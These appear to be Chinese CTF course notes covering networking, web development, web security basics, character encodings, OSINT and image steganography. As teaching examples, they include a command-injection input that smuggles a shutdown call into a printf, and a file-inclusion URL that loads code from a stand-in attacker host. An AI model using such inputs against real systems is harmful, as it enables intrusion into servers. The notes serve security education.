www.example.com。当你在浏览器中输入一个域名时，DNS服务器会像查电话簿一样，找到对应的IP地址，并指引你的请求到达正确的服务器。 -
OSI模型和TCP/IP模型 正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。
-
OSI 七层模型

-
TCP/IP 四层模型：广泛使用

-
TCP/IP 协议详解
- IP: 网络层=主机到主机，数据包寻址（快递公司）
- TCP: 传输层=应用到应用，或者说端到端（菜鸟驿站） 无边界的字节流，类比电报报文，电报的格式是应用层协议该做的，电报本身只发字母数字
-
HTTP 协议详解
- Hyper Text Transfer Protocol
- 超文本传输协议
- 应用层
- 特点：无状态，纯文本
- 需要维持状态（比如：用户已登录）怎么办？Cookie
- 格式
-
DNS记录：
- A记录：指向IPV4地址
- AAAA记录：指向IPV6地址
- CNAME： 别名，指向另外一个域名
- TXT纯文本
- NS(Name server) 非权威，可能会缓存，不一定实时更新
- MX SOA
- 命令
tracert可以查看网站如何跳转 -
TTL time to live 防止它一直在跳，TTL用完了就死了
-
代理PROXY
- 正向代理：VPN：Virtual Private Network，看起来像在内网
- 反向代理：隐藏真实IP，部署CDN，部署防火墙，内网穿透 内网穿到外面来
后端：业务逻辑¶
后端是Web应用的核心，它负责处理业务逻辑、数据存储和安全。在这一部分，我们会介绍常见的后端技术栈，并重点讨论后端安全，尤其是如何防范和应对CTF（Capture the Flag）中常见的逻辑漏洞攻击。
- 常见后端技术栈（如Node.js、PHP、Python、Ruby、Go、Rust 等）
- 后端安全：永远不要相信用户的数据，一切前端的过滤都等于没有过滤！
-
CTF: 通过逻辑漏洞等欺骗后端 逻辑漏洞：
if money!=0 then money-=price.What ifmoney=-1?没接触安全领域前关于安全的错觉：
- 这么蠢的洞也有人写？
- 这么写怎么可能有洞？
- 这么多人用怎么可能有洞？
事实：连SSH今年都还能有高危漏洞 CVE-2024-6387
真实例子（出自隔壁EE学院同学的手笔，科班-半路出家=安全+质量）：
注入：混淆了数据和代码。
例如
printf("%d", _____)正常输入：
123恶意输入：
1); system("shutdown -s -t 0"); //就变成了
printf("%d", 1); system("shutdown -s -t 0"); //)爆了
PHP 简单入门¶
PHP是最早的Web开发语言之一，它在Web开发历史上占有重要地位。
但它快死了。
早年只有静态网页，而后来有了jsp和php
- 环境配置：PHP Study
-
变量定义
-
短标签
<?=$a?> - 例子：
Note
<!DOCTYPE html>
<html>
<head>
<title>PHP 示例</title>
</head>
<body>
<h1>欢迎使用 PHP</h1>
<?php
// 定义变量
$name = "John";
$age = 25;
// 输出变量
echo "<p>你好，我的名字是 $name，我今年 $age 岁。</p>";
// 条件语句
if ($age >= 18) {
echo "<p>我已成年。</p>";
} else {
echo "<p>我未成年。</p>";
}
// 数组
$fruits = array("apple", "banana", "cherry");
echo "<p>我喜欢的水果有：</p>";
echo "<ul>";
foreach ($fruits as $fruit) {
echo "<li>$fruit</li>";
}
echo "</ul>";
// HTML 短标签
?>
<p>这是使用 HTML 短标签的示例：</p>
<?= "当前时间是：" . date("Y-m-d H:i:s") ?>
<?php
$fr = "pear";
$pear = 114;
$lingo = 514;
echo $$fr;
?>
</body>
</html>
获取 GET 参数与 Cookie 并查询数据库对应的用户：
Note
<?php
// 数据库连接信息
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test_db";
// 创建数据库连接
$conn = new mysqli($servername, $username, $password, $dbname);
// 检查连接是否成功
if ($conn->connect_error) {
die("连接失败: " . $conn->connect_error);
}
// 获取GET参数
$userId = isset($_GET['user_id']) ? intval($_GET['user_id']) : 0;
// 获取Cookie
$sessionId = isset($_COOKIE['session_id']) ? $_COOKIE['session_id'] : '';
// 查询数据库
if ($userId > 0) {
$sql = "SELECT * FROM users WHERE id = $userId";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
$user = $result->fetch_assoc();
echo "<p>用户信息: </p>";
echo "<p>ID: " . $user['id'] . "</p>";
echo "<p>姓名: " . $user['name'] . "</p>";
echo "<p>邮箱: " . $user['email'] . "</p>";
} else {
echo "<p>没有找到对应的用户。</p>";
}
} else {
echo "<p>无效的用户ID。</p>";
}
// 关闭数据库连接
$conn->close();
?>
SQL 简单入门¶
入门可以从 MySQL 开始。
相关安全话题¶
- Cookie 与 Session
- Cookie：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
- 示例：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
- Cookie劫持：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
- Session：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
- 示例：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
- 如果服务器被攻破，Session中就可能有一些敏感信息。
- Cookie：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
- 逻辑漏洞：验证不充分、想当然的写法、条件竞争、未发现的旁门左道……
- 程序员的傲慢可能会让他认为
a==1&&a==2一定是 false 但……
- 程序员的傲慢可能会让他认为

- 任意文件读与任意代码执行
- 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
- CTF竞赛中，能读服务器上
/flag则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
- 文件包含：例如一个Web应用允许用户通过URL参数指定要包含的文件，如
index.php?page=about。攻击者可以通过构造恶意URL，如index.php?page=http://evil.com/malicious.php，包含远程恶意文件，从而执行恶意代码。 - 越权：例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如
order.php?id=123，查看其他用户的订单信息。- 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会
前端：可视化与操作逻辑¶
前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。
- HTML / CSS / JS基础
- HTML 简单介绍
- 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素
- HTML 简单介绍
Note
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>HTML 和 CSS 示例</title>
<link rel="stylesheet" href="styles.css">
</head>
<body>
<header>
<h1>欢迎来到我的网站</h1>
<nav>
<ul>
<li><a href="#home">首页</a></li>
<li><a href="#about">关于我们</a></li>
<li><a href="#contact">联系我们</a></li>
</ul>
</nav>
</header>
<main>
<section id="home">
<h2>首页</h2>
<p class="intro">这是我们的首页，欢迎您的到来！</p>
</section>
<section id="about">
<h2>关于我们</h2>
<p class="intro">我们是一家专业的Web开发公司。</p>
</section>
<section id="contact">
<h2>联系我们</h2>
<p class="intro">如果您有任何问题，请随时联系我们。</p>
<form>
<label for="name">姓名:</label>
<input type="text" id="name" name="name"><br>
<label for="email">邮箱:</label>
<input type="email" id="email" name="email"><br>
<input type="submit" value="提交">
</form>
</section>
</main>
<footer>
<p>© 2023 我的网站</p>
</footer>
</body>
</html>
- CSS 简单介绍
- 用途：元素宽度、外部间隔、内部边距、字体颜色……
- 选择器语法：选择你要把这些属性应用给哪些元素
- 元素选择器
body - 类选择器
.my-class - ID选择器
#myid
- 元素选择器
Note
/* 基本样式 */
body {
font-family: Arial, sans-serif;
margin: 0;
padding: 0;
background-color: #f4f4f4;
}
header {
background-color: #333;
color: #fff;
padding: 10px 0;
text-align: center;
}
nav ul {
list-style: none;
padding: 0;
}
nav ul li {
display: inline;
margin: 0 10px;
}
nav ul li a {
color: #fff;
text-decoration: none;
}
main {
padding: 20px;
}
section {
margin-bottom: 20px;
}
.intro {
font-style: italic;
color: #555;
}
footer {
background-color: #333;
color: #fff;
text-align: center;
padding: 10px 0;
position: fixed;
width: 100%;
bottom: 0;
}
/* 表单样式 */
form {
margin-top: 20px;
}
form label {
display: block;
margin-bottom: 5px;
}
form input[type="text"],
form input[type="email"] {
width: 100%;
padding: 8px;
margin-bottom: 10px;
border: 1px solid #ccc;
border-radius: 4px;
}
form input[type="submit"] {
background-color: #333;
color: #fff;
padding: 10px 20px;
border: none;
border-radius: 4px;
cursor: pointer;
}
form input[type="submit"]:hover {
background-color: #555;
}
- JS
- 包裹在
<script>中 - 可以做什么：嵌入网页中，让网页具备高级的交互逻辑
- 包裹在
Note
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>现代Web开发示例</title>
<style>
/* CSS 样式 */
body {
font-family: Arial, sans-serif;
margin: 0;
padding: 0;
background-color: #f4f4f4;
}
header {
background-color: #333;
color: #fff;
padding: 10px 0;
text-align: center;
}
nav ul {
list-style: none;
padding: 0;
}
nav ul li {
display: inline;
margin: 0 10px;
}
nav ul li a {
color: #fff;
text-decoration: none;
}
main {
padding: 20px;
}
section {
margin-bottom: 20px;
}
.intro {
font-style: italic;
color: #555;
}
footer {
background-color: #333;
color: #fff;
text-align: center;
padding: 10px 0;
position: fixed;
width: 100%;
bottom: 0;
}
form {
margin-top: 20px;
}
form label {
display: block;
margin-bottom: 5px;
}
form input[type="text"],
form input[type="email"] {
width: 100%;
padding: 8px;
margin-bottom: 10px;
border: 1px solid #ccc;
border-radius: 4px;
}
form input[type="submit"] {
background-color: #333;
color: #fff;
padding: 10px 20px;
border: none;
border-radius: 4px;
cursor: pointer;
}
form input[type="submit"]:hover {
background-color: #555;
}
</style>
<script>
// JavaScript 代码
function greetUser() {
var name = prompt("请输入您的名字:");
if (name) {
alert("你好, " + name + "!");
} else {
alert("你好, 访客!");
}
}
function validateForm() {
var name = document.getElementById("name").value;
var email = document.getElementById("email").value;
if (name === "" || email === "") {
alert("请填写所有字段！");
return false;
}
return true;
}
</script>
</head>
<body>
<header>
<h1>欢迎来到我的网站</h1>
<nav>
<ul>
<li><a href="#home">首页</a></li>
<li><a href="#about">关于我们</a></li>
<li><a href="#contact">联系我们</a></li>
</ul>
</nav>
</header>
<main>
<section id="home">
<h2>首页</h2>
<p class="intro">这是我们的首页，欢迎您的到来！</p>
<button onclick="greetUser()">打招呼</button>
</section>
<section id="about">
<h2>关于我们</h2>
<p class="intro">我们是一家专业的Web开发公司。</p>
</section>
<section id="contact">
<h2>联系我们</h2>
<p class="intro">如果您有任何问题，请随时联系我们。</p>
<form onsubmit="return validateForm()">
<label for="name">姓名:</label>
<input type="text" id="name" name="name"><br>
<label for="email">邮箱:</label>
<input type="email" id="email" name="email"><br>
<input type="submit" value="提交">
</form>
</section>
</main>
<footer>
<p>© 2023 我的网站</p>
</footer>
</body>
</html>
- 现代的解决方式：使用前端框架
- React.js Vue.js … 但本质上还是原生js
编码基础：JavaScript 与 TypeScript¶
JavaScript¶
JavaScript 简介与历史
JavaScript（简称JS）是由Netscape公司的Brendan Eich在1995年十天内开发出来的一种脚本语言。最初设计用于浏览器端的动态网页内容生成，JavaScript迅速成为Web开发的核心技术之一，与HTML和CSS并列为前端开发的三大支柱。
- 诞生背景：JavaScript诞生于Web 1.0时代，最初被称为Mocha，后改名为LiveScript，最后才成为JavaScript。
- 发展历程：从最初的客户端脚本语言，JavaScript逐步演变成一门强大的编程语言，现今不仅用于浏览器端，还在服务器端广泛应用。
JavaScript的基本语法和特点
JavaScript语法灵活，具有动态类型、函数式编程和原型继承等特点。
-
变量声明：使用
var、let和const声明变量。 -
函数定义：
-
条件判断：
- 循环：
- 事件处理：
document.getElementById("myButton").addEventListener("click", function() {
alert("Button clicked!");
});
TypeScript¶
TypeScript的特点和优点
TypeScript（简称TS）是由微软开发的一种开源编程语言，是JavaScript的超集，增加了静态类型和类等特性。
- 静态类型：通过类型检查减少运行时错误，提高代码的可维护性。
- 类和接口：支持面向对象编程，增强代码结构性
- 模块化：支持模块化编程，提高代码复用性和组织性
Node.js简介¶
Node.js的起源和发展
Node.js是由Ryan Dahl在2009年开发的一个开源、跨平台的JavaScript运行时环境，基于Chrome的V8引擎构建。Node.js的出现使得JavaScript可以用于服务器端开发。
- 起源：Node.js诞生于对高性能、非阻塞I/O模型的需求。
- 发展：Node.js迅速发展，成为构建高性能、可扩展网络应用的首选平台。
Node.js的基本使用方法与应用场景
Node.js通过事件驱动、非阻塞I/O模型，使其在处理大量并发请求时具有显著优势。
前端相关安全领域¶
- XSS（跨站脚本攻击）
- CSRF（跨站请求伪造）与 SSRF（服务器端请求伪造）
- 跨域
尾声¶
经典老番：地址栏输入网址并访问后发生了什么
- DNS解析（域名解析）：
- 浏览器会首先检查本地缓存中是否有该网址对应的IP地址。
- 如果没有，它会向DNS服务器发送请求，查询该网址的IP地址。
- DNS服务器返回该网址对应的IP地址给浏览器。
- 建立TCP连接：
- 浏览器使用前面得到的IP地址，通过TCP/IP协议与目标服务器建立连接。
- 这包括三次握手过程：客户端发送SYN包，服务器返回SYN-ACK包，客户端再发送ACK包确认连接。
- 发送HTTP请求：
- 建立连接后，浏览器会发送一个HTTP请求到服务器。这个请求包含了请求方法（如GET或POST）、请求的资源路径以及一些头信息（如浏览器类型、可接受的文件类型等）。
- 服务器处理请求并返回响应：
- 服务器接收到请求后，会处理该请求，查找请求的资源（如HTML文件、图片、视频等）。
- 服务器会将找到的资源以及一些头信息（如内容类型、内容长度等）打包成HTTP响应，返回给浏览器。
- 浏览器接收响应并渲染页面：
- 浏览器接收到服务器返回的HTTP响应后，会解析响应的头信息和内容。
- 如果内容是HTML文件，浏览器会解析HTML并根据其中的指令（如加载CSS文件、执行JavaScript脚本等）进行渲染。
- 浏览器会逐步构建DOM树和CSSOM树，并根据它们生成渲染树，最后将内容绘制到屏幕上。
- 加载资源：
- 如果HTML文件中包含了其他资源（如图片、CSS、JavaScript等），浏览器会根据需要发送额外的HTTP请求来加载这些资源。
- 这些资源加载完成后，浏览器会继续渲染页面，更新显示内容。 整个过程通常在短时间内完成，以确保用户能够快速看到网页内容。
Misc
约 6316 个字 9 行代码 预计阅读时间 22 分钟
7-4 lec3-Misc¶
授课：goduck
什么是Misc¶
- 杂项 ALL-PWN-WEB-CRYPTO - REVERSE
- 隐写、取证、OSINT（信息搜集）、PPC（编程类） ——传统 misc 题
- 游戏类题目（大概也算 PPC）、工具运用类题目
- 编解码、古典密码 ——不那么 crypto 的 crypto
- 网络解谜、网站代码审计 ——不那么 web 的 web
- 代码审计、沙箱逃逸 ——不那么 binary 的 binary
- Blockchain、IoT、AI ——新兴类别题目
编码基础¶
- 一切信息在计算机看来都是 0 和 1
- 编解码 / 加解密 / 哈希都是在 01 串之间进行的变换
- 为什么你看见的输入输出是字符？
- 计算机通过字符编码规则将 01 串转换为了可见字符
- 三种常见的01串转换方式

- 常用的解码工具 CyperChef
为什么会乱码¶
-
字符编码：人类理解的字符 > 计算机理解的 01 串 之间的映射
-
为什么会出现乱码：用一种字符编码规则解读另一种字符编码的 01 串 ；A0-FF：可见字符
- 特点：任何字节流都可以用其解码
- 利用 Unicode 字符集的
- 常见的字符编码：
- ASCII：一共 128 个项，即每个字符可以用一个 7 位的 01 串表示（或一字节）
- 00-1F：控制字符；20-7E：可见字符；7F：控制字符（DEL）
- Latin-1（ISO-8859-1）：扩展了 ASCII，一共 256 个项
- 80-9F：控制字符一系列编码
- UTF-8 / UTF-16 / UTF-32 / UCS
- 中国国标字符集系列编码
- GB 2312 / GBK / GB 18030-2022
怎么就乱码了¶
几个字符集不兼容的部分互相编解码，常见的：
- 用 GBK 解码 UTF-8 编码的文本
- 用 UTF-8 解码 GBK 编码的文本
- 用 latin-1 解码 UTF-8 编码的文本
- 用 latin-1 解码 GBK 编码的文本
- 先用 GBK 解码 UTF-8 编码的文本，再用 UTF-8 解码前面的结果
- 先用 UTF-8 解码 GBK 编码的文本，再用 GBK 解码前面的结果
- 这里我们请同学们自行研究，lab 中会用到（后续详细发布），几种推荐的方式：
- CyberChef，通过 Input 和 Output 窗口的字符集设置
- 需要注意，CyberChef 的 UTF-8 不会将错误解码替换为 �（非预期）
- vscode 右下角的编码方案（重新打开 / 用编码保存）
- 必要的时候可以使用 python 来进行编解码 / 进制转换等
摩斯电码¶
前面说到的字符编码：01 串 > 字符；接下来看另一种：字符 > 字符
- 摩尔斯电码（Morse Code）：利用点划（“滴”的时间长短）来表示字符
- 点 ·：1 单位；划 -：3 单位
- 点划之间间隔：1 单位；字符之间间隔：3 单位；单词之间间隔：7 单位
- 字符集：A-Z、0-9、标点符号（.:,; ='/!-_"()$&@+）、一些电码专用表示
- 表示中文：电码表（一个汉字对应四个数字），数字使用短码发送

BASE编码¶
- Base16：即 16 进制表示字节流，长度翻倍
- Base32：按照 5 bit 一组（每个 0-31），按照字符表（A-Z2-7）映射
- 结果长度必须是 5 的倍数，不足的用 = 不齐（明显特征）
- Base64：按照 6 bit 一组，按照字符表映射（最常用）
- 标准字符表：A-Za-z0-9+/
- 另有多种常用字符表，如 URL 安全字符表：A-Za-z0-9-_
- 结果长度必须是 4 的倍数，不足的用 = 不齐（1~2 个，明显特征）
Base-n 系列的本质：¶
- 字节流 > 整数 > n 进制 > 系数查表 所以除去前面规则的 16/32/64 进制，还有一些其他的 Base 编码：
- 分组：
- Base85：4 字节整数 > 85 进制 > 5 个系数
- 常用字符表：0-9A-Za-z!#$%&()*+-; >?@^_`{ }~
- 标准字符表：!-u（ASCII 编码中 0x21-0x75）
- 作为大整数转换进制：
- Base62：0-9A-Za-z（比 Base64 少了 +/）
- Base58：0-9A-Za-z 去除 0OIl
- Base56：比 Base58 少了 1 和 o
- Base36：0-9A-Z（比 Base62 少了 a-z）
OSINT 基础¶
我要成为开盒糕手！
- Open Source INTelligence：开源网络情报
通过完全公开的信息进行合理的推理，获取情报 一般在 misc 题目中出现即泛指信息搜集，有几种情况： - 构造了一个全新的虚拟身份，搜集得到出题人准备好的信息 - 根据图片、文档等附件泄漏的信息进行推理（主要） - 包括根据图片内容推理找到拍摄位置、当时环境等信息
信息搜集¶
文件信息泄露¶
- 各种文档的元信息（metadata）可能包括作者、修改时间等信息
- 图片的 EXIF 信息，可通过 exiftool 查看一般以 xml 形式存储，可以直接通过二进制抹除，或者通过操作系统
- 工程文件夹泄漏信息
- Visual Studio 的各种配置文件，.vs 文件夹中信息
- .vscode 文件夹中的配置文件
- .git 文件夹，泄漏全部修改历史、提交信息、提交者等 文件夹路径信息泄漏
- .DS_Store 文件，macOS 下的文件夹布局信息
前面各种工程配置文件等也会泄漏（比如 vs 的 pdb 调试信息） markdown 文件图片路径（本地路径 / 图床用户 / 自建图床网站）
照片信息分析¶
- 识图
- 属性
- 地标
- 天气信息，云层信息，估计方向，位置，时间等
- 风景信息，Yandex搜索
7-9 Misc专题1¶
授课: 45gfg9
长沙，好玩；上课，不好玩
Part1:文件系统基础¶
文件如何存储¶
- 不同的文件系统，不同的组织方式
- MS 派：FAT、NTFS、exFAT、ReFS
- Apple 派：HFS、APFS
- Linux 派：ext[234]、XFS、Btrfs、ZFS...
- 文件是一串二进制数据
- 在 HDD 上是微小磁极的磁化方向
- 在 SSD 上是电荷的存储状态
- “文件名”是由文件系统管理的，不是文件本身数据的一部分
- 文件系统会记录文件名、文件大小、创建时间、修改时间等信息
- 文件内容才是真正的数据
如何判断文件类型¶
- 扩展名
- .jpg , .webp,.txt,.docx
- 是文件名的一部分，可以随意修改
- 决定了打开文件的默认程序
- 内容
- 通过文件内容来识别文件类型
file命令- 不同文件类型有不同的magic number
二进制查看文件与分析¶
- 010 Editor
- 全平台最常用的二进制编辑器，付费软件（但容易破解）
- 有丰富的 binary templates，支持解析多种文件格式
- wader/fg
- Go 编写的开源二进制文件查看工具
- 支持类似 jq 语法的查询
- Hex Fiend
- macOS 上免费开源高效的二进制编辑器
- 也有多种二进制格式的解析模板，但显示没有 010 丰富
- ImHex
- 全平台开源二进制编辑器
- 类似 010 Editor，但使用麻烦一些
- 可以编写自定义解析模板
文件类型检测与元信息¶

文件附加内容的识别与分离¶
- 大部分文件类型都有一个标记文件内容结束的标志
-
比如 PNG 的 IEND 块、JPEG 的 EOI 标志（FF D9）
-
所以一般在文件末尾添加其他字节时，不会影响原文件本身的用途
- 因此有些隐写是将数据隐藏在文件末尾达到的
- 或者在文件后叠加另一份文件
- cat cover.jpg secret.zip > cover_stego.jpg
- 附加内容的识别
- exiftool 一般可以识别图像文件后的附加数据
- binwalk 可以检测叠加的文件
- 附加文件的分离
- binwalk 或 foremost 识别并分离
- dd if=
of= bs=1 skip= 手动分离
Part2: 图像隐写基础技术¶
文件内容基本隐写¶
- 文件末尾添加数据
- exiftool 识别短数据，或者十六进制编辑器直接观察
- binwalk 识别叠加文件，foremost 提取
- 图像末尾叠加一个压缩包，就是所谓的“图种”
- 修改后缀名可能可以解压（部分解压软件会忽略前面的图像）
- 其实不如直接分离
- 直接利用元信息
- exiftool 即可读取
色彩空间、色彩模式¶
色彩空间（sRGB、Adobe RGB、Display P3 等）是一个相对非常复杂的概念，而且是针对显示的，我们不详细介绍
我们注重于表示颜色的数据上，一般称为色彩模式（color mode）：
- 二值图像（bitonal）：每个像素只有两种颜色，如黑白
- 灰度图像（grayscale）：每个像素有多种灰度，如 256 级灰度
- RGB(A)：3(+1) 通道，表示 RGB 三种颜色，A 表示透明度通道(印刷常用)
- CMYK：青 cyan、品红 magenta、黄 yellow、黑 black 四种颜色混合
- HSV：色调 hue、饱和度 saturation、明度 value
- HSL：色调 hue、饱和度 saturation、亮度 lightness
- YCbCr：亮度 luminance、蓝色色度 blue chroma、红色色度 red chroma
- LAB：亮度 lightness、绿红色度 A、蓝黄色度 B
- ...
LSB 隐写¶

- 人眼对于微小的颜色变化不敏感
- 对于 8 bit 的颜色值，最低位的变化不会被察觉
- 可以随意修改最低位，而不影响图像的显示效果
- LSB 隐写将颜色通道的最低位用来编码信息
- 图像：stegsolve / CyberChef View Bit Plane
- 数据：stegsolve / CyberChef Extract LSB / zsteg / PIL
PIL 图像处理基础¶
PIL（Python Imaging Library）是 Python 中非常常用的图像处理库
- 安装：pip3 install pillow 或 apt install python3-pil
-
官方文档 / 教程：https://pillow.readthedocs.io/en/stable/
-
基本用法
- from PIL import Image 导入和图像读写处理有关的 Image 类
- img = Image.open(file_name) 打开图像
- img.show() 显示图像；img.save(file_name) 保存图像
- img.size 图像大小，img.mode 图像模式
- img.convert(mode) 转换图像模式
- img.getpixel((x, y)) 获取像素点颜色
- img.putpixel((x, y), color) 设置像素点颜色
- np.array(img) 将图像转换为 numpy 数组
-
具体图像模式以及转换
- '1'：黑白二值（0/255）；'L'：灰度（8 bit），'l'：32 bit 灰度
- L = 0.299 R + 0.587 G + 0.114 B
